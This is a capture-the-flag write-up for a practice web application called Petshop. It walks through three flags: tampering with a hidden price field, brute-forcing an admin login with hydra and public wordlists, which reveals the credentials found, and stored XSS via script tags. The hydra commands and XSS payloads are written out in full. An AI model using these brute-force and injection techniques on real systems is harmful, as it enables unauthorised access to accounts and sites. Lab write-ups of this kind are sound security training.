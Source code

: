 # Petshop Challenge

##  1. Flag 1

Change the hidden input filed value, make any of the item's cost to negative. 

## 2. Flag 2

Hidden login admin page is at `/login`

Listening for all HTTP packets on 80

```shell
sudo tcpdump -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

Use hydra to brute force the login

Username: 

```shell
hydra -f -L usernames.txt -p aaaa 34.94.3.143 http-post-form "/ae77076007/login:username=^USER^&password=^PASS^:Invalid username"
```

**Found username : `agnella`** 

Username wordlist downloaded from https://github.com/jeanphorn/wordlist

Password: 

```shell
hydra -f -l agnella -P big.txt 34.94.3.143 http-post-form "/ae77076007/login:username=^USER^&password=^PASS^:Invalid password"
```

Tried several medium sized word list, rockyou.txt is pretty big so didn't try that. 

Used https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt and it worked.

**Found password : `dos`**

## 3. Flag 3

Took first hint, said test every input. Suspected XSS. 

After login tried editing the Pets.

Changed pet name to : `kitten <script>alert(1)</script>`  and saved, refreshed the page. 1 got alerted so XSS was possible.

Went to checkout still not flag.

Included `<script>alert(flag)</script>` in description and saved. Then went to checkout page. Got the flag.

